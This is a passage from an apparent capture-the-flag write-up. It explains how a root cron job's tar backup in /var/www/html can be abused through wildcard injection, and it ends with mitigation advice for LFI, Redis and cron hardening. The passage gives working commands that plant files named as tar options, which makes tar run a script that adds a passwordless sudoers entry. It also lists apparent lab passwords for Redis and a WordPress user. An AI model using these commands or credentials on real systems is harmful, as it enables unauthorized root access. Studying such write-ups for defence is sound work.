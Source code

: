 This file goes to `/var/www/html` directory, checks for files if file modified no later that 3 minutes ago, and number of its lines is greater than 0 then it performs backup in `/opt/backups` folder.

We can perform [wildcard abuse](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) of tar utility in this file. Go to the folder where cron job is running tar command and put there the following commands:

```bash
echo 'echo "alice ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
```

Now we need to wait until cron job is executed.

After it is executed we get the root shell:

![image.png](image%2020.png)

## Credentials

```bash
redis - Ready4Redis?
Karl : Wordpress1234
```

## Mitigation

- **Fix LFI Vulnerabilities:** Sanitize file path inputs and avoid passing unsanitized data to file functions.
- **Harden Redis:** Bind Redis to localhost only, require authentication, and disable dangerous commands in production.
- **Secure Cron Jobs:** Avoid using wildcards in cron scripts, or sanitize input to prevent wildcard injection attacks.
- **Limit File Permissions:** Prevent write access to sensitive cron directories for low-privileged users.
- **Use AppArmor/SELinux:** Implement mandatory access controls to restrict what processes can execute and access.
- **Keep Software Updated:** Regularly patch plugins, CMS, and services like Redis to close known security holes.
